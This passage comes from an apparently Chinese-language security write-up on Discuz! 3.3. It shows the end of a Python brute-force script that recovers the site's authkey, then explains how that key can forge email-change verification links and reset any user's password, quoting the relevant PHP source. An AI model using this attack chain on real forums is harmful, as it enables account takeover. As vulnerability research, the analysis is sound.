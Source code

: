 ```
		for s in s_list:
			prefix = "".join(j)
			authkey = prefix + s
			# print dsign(authkey)
			if dsign(authkey) == sign:
				print "[*] found used time: " + str(time.time() - s_time)
				return "[*] authkey found: " + authkey

print main()
```

差不多1小时左右就能得到结果。

![image.png-46.3kB][7]
![image.png-107.4kB][8]

返回结果一致，成功得到authkey。

那么问题来了，通过获得authkey，我们能干什么，这里举一个修改任意用户邮箱的例子，通过修改邮箱，我们可以使用忘记密码功能来重置任意用户的密码。

当我们申请修改邮箱的时候，我们会受到一封类似于下面这样的邮件。
![image.png-61.4kB][9]

验证链接类似于
```
http://127.0.0.1/dz3.3/home.php?mod=misc&ac=emailcheck&hash=0eb7yY2wtS1q16Zs2%2BtSkR6w5O%2Fx6jdLbu0FnWbegB8ixs2Y6tfcyAnrvz4yPIE7pKzoqawU0ku47y4F
```

跟入`/source/include/misc/misc_emailcheck.php` 代码如下：
```
<?php

/**
 *      [Discuz!] (C)2001-2099 Comsenz Inc.
 *      This is NOT a freeware, use is subject to license terms
 *
 *      $Id: misc_emailcheck.php 33688 2013-08-02 03:00:15Z nemohou $
 */

if(!defined('IN_DISCUZ')) {
	exit('Access Denied');
}

$uid = 0;
$email = '';
$_GET['hash'] = empty($_GET['hash']) ? '' : $_GET['hash'];
if($_GET['hash']) {
	list($uid, $email, $time) = explode("\t", authcode($_GET['hash'], 'DECODE', md5(substr(md5($_G['config']['security']['authkey']), 0, 16))));
	$uid = intval($uid);
}
// exit($email);
if($uid && isemail($email) && $time > TIMESTAMP - 86400) {

	$member = getuserbyuid($uid);
	$setarr = array('email'=>$email, 'emailstatus'=>'1');
	if($_G['member']['freeze'] == 2) {
		$setarr['freeze'] = 0;
	}
	loaducenter();
	$ucresult = uc_user_edit(addslashes($member['username']), '', '', $email, 1);

	if($ucresult == -8) {
		showmessage('email_check_account_invalid', '', array(), array('return' => true));
```

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/27by3pv6j16qauhgebbrapvr/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/vd44ejapmbdfwnq8z8vklxb1/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4q78iyn4bndzmtarrcrk43wn/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/737c9gqg6cdtlo4aryxpnxwe/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fu70qeqhk55gw55xm0qwkbk2/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fdmabv7avbqd1w5libd3j0g3/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cipp76y0aw4wz33z3c7ambth/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fmwrfzfbm4jjrv1nsm8e92r0/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/n882uz5x3qrymr6ljsb89brm/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dgu0bdnhje2u2caxy0q5bmgs/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4q78iyn4bndzmtarrcrk43wn/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ivok9agi1lurxhe4xkst4vyj/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cipp76y0aw4wz33z3c7ambth/image.png
  [14]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/jeddzeumksc2zm7ioph0ybk3/image.png
  [15]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g0fipnw0vrrsojjmnfsc9mtg/image.png
  [16]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/vl37a7f8giy88mbhndxkbb9x/image.png